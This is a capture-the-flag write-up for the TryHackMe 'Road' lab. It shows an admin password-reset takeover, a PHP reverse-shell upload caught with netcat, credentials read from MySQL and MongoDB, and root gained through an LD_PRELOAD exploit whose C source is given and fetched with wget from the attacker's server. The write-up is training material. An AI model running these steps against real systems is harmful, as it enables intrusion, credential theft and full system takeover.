

Welcome to my TryHackMe-Road-WriteUp! first we start enumeration with rustscan with this command:
rustscan -a 10.10.2.34 -- -sC -sVwe see only two ports are open and there is no useful exploit for this versions of services. So we keep enumerating when we go to the site we see there is a site called sky courier.when we click button in the right top it redirects us to a login page

to learn more about the site we register to site when we registered in profile edit page we can see what is username of admin

after some research i found a vulnerability. we can chance admin's password with burpsuite in the reset user page.

for to do that we enter password and we change our request like this to reset admin's password
after that when we login as admin we can use file upload button in profile edit page. To get a reverse shell first we open burpsuite and upload a normal .jpg file after clicking edit button we delete our .jpg files code and paste our malicious code. you can find code in here https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php . And we change .jpg to .php . Before upload our request should look like this:

So we need to trigger our php file to do this we should know where is our file in the site. After some research i found something in site's source code

Site is putting uploaded filen in /v2/profileimages/ directory to get a reverse shell first we start our listener with this command:
nc -lnvp 443after that we triggering our file by visiting this site http://10.10.2.34/v2/profileimages/sh1.php
and then we are in as user www-data. after that we spawn a shell with this command:
python3 -c 'import pty;pty.spawn("/bin/bash")'after that we see there is a user named webdeveloper and his home directory we get our user flag
then we keep searching . After some research i found out mysql and mongodb databases runs in the server. We can find mysql credentials in /var/www/html/v2/lostpassword.php but in mysql server there is no useful data. When we look inside of the mongodb server we find webdevelopers password. to do this we use this commands:
mongoshow dbsuse backupshow collectionsdb.user.find()after some search i found out that user webdeveloper is in sudo group but we cant directly be root. when we use this command to see what we can do with sudo something interesting appears:
sudo -l
we see there is LD_PRELOAD vulnerability.To be root with this vulnerability first we code a c exploit. Source code of exploit is:
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
then we use this commands to be root:
in attacker machine we deploy a simple http server to send exploit to the target:
python3 -m http.server 7000in target we go to the /tmp directory and run our exploit with this commands:
in target we go to the /tmp directory and run our exploit with this commands:
cd /tmpwget http://10.10.51.16:7000/shell.cgcc -fPIC -shared -o shell.so shell.c -nostartfilessudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
and done. We are root. Thanks for reading!